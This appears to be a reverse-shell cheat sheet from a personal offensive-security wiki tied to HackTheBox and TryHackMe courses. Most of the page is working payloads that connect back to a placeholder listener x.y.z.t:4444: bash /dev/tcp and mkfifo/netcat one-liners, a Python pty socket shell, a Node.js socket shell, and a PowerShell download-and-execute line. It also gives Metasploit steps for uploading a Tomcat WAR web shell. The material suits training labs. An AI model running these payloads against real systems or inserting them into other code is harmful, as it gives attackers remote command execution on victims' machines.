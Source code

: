 # Reverse shell

[![shells_and_payloads](../../../_badges/htb/shells_and_payloads.svg)](https://academy.hackthebox.com/course/preview/shells--payloads)
[![fileuploadattacks](../../../_badges/htb/fileuploadattacks.svg)](https://academy.hackthebox.com/course/preview/file-upload-attacks)
[![introtoshells](../../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)

<div class="row row-cols-lg-2"><div>

When a victim <small>(client)</small> connects to a server <small>(hacker)</small>, we gain access to what we call a 'reverse shell,' allowing us to run commands on the victim and maybe compromise it.

The 'reverse' comes from the fact that the target is the one connecting to use, while with ssh or other remote tools, the client is 'normally' the one initiating the connection. 💥

The hacker will run a listener on their machine and wait for the compromised target to connect back to it, e.g. wait for the target to execute the reverse shell payload 🪲.
</div><div>

You will have to configure the selected reverse shell that you will use to connect back to the listener. For the commands below, we consider the host with the listener IP to be `x.y.z.t`; port `4444` .

If your target is missing a binary, you may be able to download a precompiled version on [andrew-d GitHub](https://github.com/andrew-d/static-binaries/tree/master/binaries) <small>(3.2k ⭐, 2020 🪦)</small>.

**For the listener**, you can use tools listed in [Remote Shell](../index.md#remote-shell-) or a simple instable netcat listener listening on the selected port:

```shell!
$ nc -lvnp 4444 # await the reverse shell payload execution
```
</div></div>

<hr class="sep-both">

## Revshells website

<div class="row row-cols-lg-2"><div>

[revshells](https://www.revshells.com/) is a popular website to create reverse shell payloads, along with generating listener commands.

* Example: "Bash" client

```shell!
$ sh -i >& /dev/tcp/x.y.z.t/4444 0>&1
```

* Example: "nc.exe -e" client

```shell!
PS> nc.exe x.y.z.t 4444 -e sh
```

➡️ Select one based on what command you can run on the target.
</div><div>

Other alternatives are:

* [revshellgen](https://github.com/t0thkr1s/revshellgen) (0.4k ⭐, script)
* [ShellPop](https://github.com/0x00-0x00/ShellPop) (1.4k ⭐, script, 2018/2019)
</div></div>

<hr class="sep-both">

## PHP reverse shell

<div class="row row-cols-lg-2"><div>

You could check out [this script by pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) (1.4k ⭐, 2015). This is a well-known reference.

On Kali Linux, there is local copy in `/usr/share/webshells/php/`.

```bash!
$ cp /usr/share/webshells/php/php-reverse-shell.php /tmp/revshell.php
$ sed -i 's/127.0.0.1/x.y.z.t/' /tmp/revshell.php
$ sed -i 's/1234/4444/' /tmp/revshell.php
```
</div><div>
</div></div>

<hr class="sep-both">

## netcat client

[![introtoshells](../../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)

<div class="row row-cols-lg-2"><div>

The most common usage is:

```ps
$ nc -c /bin/bash x.y.z.t 4444
```
</div><div>

Netcat option `-e` is often not available due to security measures.

```ps
$ nc x.y.z.t 4444 -e /bin/bash
```
</div></div>

<hr class="sep-both">

## Linux targets

<div class="row row-cols-lg-2"><div>

#### TCP socket

```shell!
$ /bin/bash -i >& /dev/tcp/x.y.z.t/4444 0>&1
```
</div><div>

#### Named pipe

[![shells_and_payloads](../../../_badges/htb/shells_and_payloads.svg)](https://academy.hackthebox.com/course/preview/shells--payloads)

```shell!
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc x.y.z.t 4444 >/tmp/f
```
</div></div>

<hr class="sep-both">

## Windows targets

<div class="row row-cols-lg-2"><div>

You can try [ConPtyShell](https://github.com/antonioCoco/ConPtyShell) <small>(1.0k ⭐)</small>.

```ps
PS> IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing)
PS> Invoke-ConPtyShell x.y.z.t 4444
```

```ps
$ curl http://$IP:$PORT/revshell.php -o /dev/shm/revshell.php
$ php /dev/shm/revshell.php
$ export RHOST="x.y.z.t";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
</div><div>

You can try [powercat](https://github.com/besimorhino/powercat) <small>(2.1k ⭐, powershell netcat client/server)</small>
</div></div>

<hr class="sep-both">

## Tomcat Reverse Shell

<div class="row row-cols-lg-2"><div>

You can use [metasploit](/cybersecurity/red-team/tools/frameworks/metasploit/index.md) to both generate a shell and upload it. It doesn't work with at least tomcat 7.8.

```shell!
$ msfconsole -q
msf6> use exploit/multi/http/tomcat_mgr_upload
msf6> set RHOSTS <target>
msf6> set RPORT 8080
msf6> set HttpUsername username
msf6> set HttpPassword password
msf6> set LHOST tun0
msf6> set VERBOSE true # error 500 == it won't work
msf6> run
```
</div><div>

You can use [msfvenom](/cybersecurity/red-team/tools/frameworks/metasploit/msfvenom.md#-some-payloads-) to generate a reverse shell.

You can also create one manually. For the contents of `index.jsp`, you can use metasploit one or [this one which is similar](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/jsp/jsp-reverse.jsp).

```ps
$ nano index.jsp # fill this file
$ jar -cvf ../revshell.war index.jsp  # it works in v7
$ zip -r revshell.war index.jsp       # it works in v7
```
</div></div>

<hr class="sep-both">

## Node.js Reverse Shell

[![pythonplayground](../../../_badges/thm-p/pythonplayground.svg)](https://tryhackme.com/r/room/pythonplayground)

<div class="row row-cols-lg-2"><div>

Given the following shell from [revshells](https://www.revshells.com/):

```js!
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(4444, "x.y.z.t", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```
</div><div>

You can execute it using `node.js reverseshell.js`.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* Python/Mkfifo shells are often more likely to work
* Try double reverse shell?
* [r57shell](https://r57shell.net/)
* [EzpzShell](https://github.com/H0j3n/EzpzShell)
* [hoaxshell](https://github.com/t3l3machus/hoaxshell)
</div><div>
</div></div>